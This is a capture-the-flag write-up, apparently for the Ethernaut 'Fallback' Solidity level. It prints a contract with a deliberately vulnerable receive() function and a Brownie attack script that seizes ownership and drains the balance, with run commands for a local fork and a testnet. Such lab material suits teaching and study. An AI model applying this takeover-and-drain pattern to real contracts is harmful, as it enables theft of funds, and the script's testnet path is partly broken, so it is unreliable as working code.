

# Fallback

- `Difficulty`: 1/10

- `Objective`:
  1. claim ownership of the contract
  2. reduce its balance to `0`

- `Things that might help`:
  1. How to send ether when interacting with an ABI
  2. How to send ether outside of the ABI
  3. Converting to and from wei/ether units (see help() command)
  4. Fallback methods

- `Fallback.sol`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/math/SafeMath.sol";

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  
  // fallback fn. :)
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

- First initialise an empty brownie project using the following command

```bash
brownie init
```

- Save the `Fallback.sol` in the contracts folder.
- Setup the environment in the `.env` file like this. `PRIVATE_KEY` = wallet private key

- `.env`

```bash
export PRIVATE_KEY=0xb8abda....231
export WEB3_INFURA_PROJECT_ID=c2abfm......haha
```

- Now we have to setup `brownie-config.yaml` file to flatten the contract & compile into ABI so that we can work with it (Only for testing locally)
- `brownie-config.yaml`

```bash
dependencies:
  - OpenZeppelin/openzeppelin-contracts@3.0.0
compiler:
  solc:
    remappings:
      - "@openzeppelin=OpenZeppelin/openzeppelin-contracts@3.0.0"
dotenv: .env
networks:
  default: mainnet-fork
  rinkeby:
    verify: False
wallets:
  from_key: ${PRIVATE_KEY}
```

- We have to tell the solidity compiler to look for the imports locally & that's what's the `remapping` section is doing & thed `dependencies` section is downloading the dependencies locally.

- `IFallback.sol` The interface. Which will make our work a lot easier. Save it inside the `interface` folder.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallback {
    function contribute() external payable;

    function getContribution() external;

    function withdraw() external;
}

```

- Now let's write some scripts. First one is `helpful_scripts`. This script helps us to get the testing accounts both for local testing & actual network testing.
- `helpful_scripts`

```py
#!/usr/bin/python3
from brownie import network, accounts, config

FORKED_LOCAL_ENVIRONMENTS = ["mainnet-fork", "mainnet-fork-dev"]
LOCAL_BLOCKCHAIN_ENVIRONMENTS = [
    "development",
    "ganache-local",
    "ganache-local-new-chainId",
]


def get_account():
    if (
        network.show_active() in LOCAL_BLOCKCHAIN_ENVIRONMENTS
        or network.show_active() in FORKED_LOCAL_ENVIRONMENTS
    ):
        return accounts[0], accounts[1]

    if network.show_active() in config["networks"]:
        return accounts.add(config["wallets"]["from_key"])

    return None
```

- `network.show_active()` is a built-in brownie method to check the network we're testing. For rikeby the later `if` statement will get executed & our metamask wallet will be connected.

- `FORKED_LOCAL_ENVIRONMENTS` list contains the name of the local networks & `FORKED_LOCAL_ENVIRONMENTS` is only needed if we run our own blockchain env using ganache or something else. We don't need that. In short this section will get executed if you use the tag `--network mainnet-fork` with `brownie`. More on that in the latter section.

- Ok we have out accounts. Let's deploy the code to test locally so that we don't waste any ether.
- `deploy.py`

```py
#!/usr/bin/python3
from brownie import Fallback
from scripts.helpful_scripts import get_account


def deploy():
    owner, _ = get_account()

    fallback = Fallback.deploy({"from": owner})
    
    print(f"Contract Deployed to {fallback.address}")
    return fallback, owner


def main():
    deploy()
```

- First we're importing the Fallback contract from brownie i.e. the ABI (I guess so :)). Then the next import is our `get_account` function to get our testing accounts. This `deploy` function is deploying the contract locally & returnining the contract object & the address of the owner.

- Now the final & most important one.
- `attack.py`

```py
#!/usr/bin/python3
from brownie import interface
from web3 import Web3
from colorama import Fore
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account

# ? Global variables
AMOUNT = 0.00002
CONVERTED_AMOUNT = Web3.toWei(AMOUNT, "ether")

# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack(contract_address=None, attacker=None):
    if contract_address is None:
        fallback_contract, owner = deploy()
        contract_address = fallback_contract.address
        # ? Geeting the accounst for local testing
        _, attacker = get_account()

    # print(contract_address)
    # print(attacker)
    # exit(1)

    fallback = interface.Fallback(contract_address)
    contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
    contrib_tx.wait(1)

    print(f"{green}Contributed {AMOUNT} ETH to the contract{reset}")
    print(
        f"Contract Balance: {green}{Web3.fromWei(fallback_contract.balance(), 'ether')} ETH{reset}"
    )

    # ? Invoking the fallback fn. i.e. the recieve() methind in solidity which enables a contract to accept payments

    print(f"{red}Doing the Attack by invoking the fallback fn.{reset}")
    attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
    attack_tx.wait(1)

    print(f"Previous Address of the owner : {green}{owner}{reset}")
    print(f"Current Address of the owner : {green}{fallback_contract.owner()}{reset}")
    print(f"Address of the attacker : {green}{attacker}{reset}")
    print(f"{red}Hehe Wer're now the owner{reset}")

    # ? Draining the funds
    print(f"{magenta}Now Draining the funds!!!{reset}")

    drain_tx = fallback_contract.withdraw({"from": attacker})
    drain_tx.wait(1)

    print(f"Contract Balance: {green}{fallback_contract.balance()}{reset}")
    print(f"{red}All the money has been withdrawn!!{reset}")


def main(contract_address=None):
    if contract_address:
        attack(contract_address, get_account())
    else:
        attack()
```

- The imports are pretty basic. I hope you will undertand them. `colorama` is to make the outpur colourful. It's pretty hard to read the output if it's plain text.
- Next we have some global variables pretty much basic stuff & the names speaks for itself.

- Let's start with the `main()` function. It takes 1 parameter & it's default value is set to `None` i.e. if we don't pass any values then it'll be set to `None`.
- If it's not `None` then we're calling the `attack` fn. with 2 parameters `contract_address` & with our account (the metamask wallte one). This one will get executed when we test the script on actual testnet for this case on `rinkeby`.
- Else we're just calling the `attack` fn. & it'll not be a problem because see the fn. declaraion `def attack(contract_address=None, attacker=None)`, the default values are `None`.
- Moving on, `if contract_address is None:` will get executed when we're testing locally. This one is just setting up the contract address & accounts which we deployed locally.

- We're making a contract object by using the interface we created easier & passing the address of our contract to it

```js
fallback = interface.Fallback(contract_address)
```

## Approach

1. We have to claim the contract i.e. we have to be the owner. For this we have to have contribute more than the owner. Which is a porblem for 2 reasons.
   1. We don't have that much ether
   2. We can't send more than `0.001` because of this line `require(msg.value < 0.001 ether)` in `contribute` fn.

2. What can we do here............ Interestingly there is a `receive()` method which is interesting. This one says that if we make any contribution which is greater than `0` then we'll be the owner of the contract. But this doesn't look like a normal fn. It doesn't have the `function` keyword. If we look at solidity documentation the `receive()` method is a special method (from solidity 6) that allows a contract to receive payments i.e. ether. Ok coool. More on [receive](https://www.educative.io/answers/how-to-receive-ethers-inside-a-smart-contract) fn.

```js
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

- Let's attack it now. First we're sending some ether to this contract.  

```js
contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
contrib_tx.wait(1)
```

- Now we're using the `transfer` functionality of brownie to send the money to the contract.

```js
attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
attack_tx.wait(1)
```

- By invoking this function we're matching the require statement in the `require()` method of the contract & this will make us the new owner.

```js
require(msg.value > 0 && contributions[msg.sender] > 0);
owner = msg.sender;
```

- Now to complete the challenge we have to drain all the funds. It's easy now as we're now the owner we cann call the built-in `withdraw()` function.


## Using Brownie to run the program

- To run on local development environment. This will compile all the nesessary files & run the attack script.

```bash
brownie run .\scripts\attack.py
```



- To run on `rikeby` network use this command. Syntax is `brownie run <script.py> <function name> <contract address> --network rikeby`

```bash
brownie run .\scripts\attack.py main "0x4c7c62Ed79994383EEa5Cf156bd3159e9e12C385" --network rinkeby
```
